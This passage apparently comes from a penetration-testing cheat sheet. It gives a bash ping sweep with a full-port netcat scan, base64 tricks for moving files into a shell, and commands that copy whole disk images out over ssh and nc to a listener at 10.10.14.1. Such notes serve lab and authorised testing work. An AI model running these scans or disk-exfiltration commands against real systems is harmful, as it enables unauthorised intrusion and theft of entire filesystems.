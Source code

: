 - Sweep and scan, combining the above

```bash
RANGE=192.168.122
PERHOSTTIMEOUT=$((2*60))
PERPORTTIMEOUT=$((1*1))
for i in $(seq 1 254); do (ping -c1 -w1 ${RANGE}.${i} >/dev/null 2>&1 &); done
sleep 10
IPS=$(arp -an | grep -v incomplete | sed 's/.*(\(.*\)).*/\1/g' | grep "${RANGE}")
for IP in $IPS
do
  echo "[+] Scanning: ${IP}"
  timeout "${PERHOSTTIMEOUT}" nc -zvw ${PERPORTTIMEOUT} ${IP} 1-65535 2>&1 | grep -vE 'refused|timed out'
  echo "[+] Done: ${IP}"
done
```

### Copy files to a shell

- Use base64 from the terminal:

__source__
```shell
FILE=/tmp/source_file
cat "${FILE}" | base64 -w 0
# Or compressed
cat "${FILE}" | gzip | base64 -w 0
```

- Copy the base64 output

__destination__
```shell
OUTPUTFILE=/tmp/output
echo PASTEBASE64 | base64 -d > "${OUTPUTFILE}"
# Or compressed
echo PASTEBASE64 | gunzip | base64 -d > "${OUTPUTFILE}"
```

- Transport a disk image through ssh

```bash
ssh username@10.10.10.1 'dd if=/dev/sda1 | gzip -1 -' | dd of=image.gz
```

- Or through nc

__source__
```
dd if=/dev/mapper/machine-vg-root | gzip -1 - | nc 10.10.14.1 1234
```

__destination__
```
nc -vl 1234 | gunzip > filesystem.raw
```
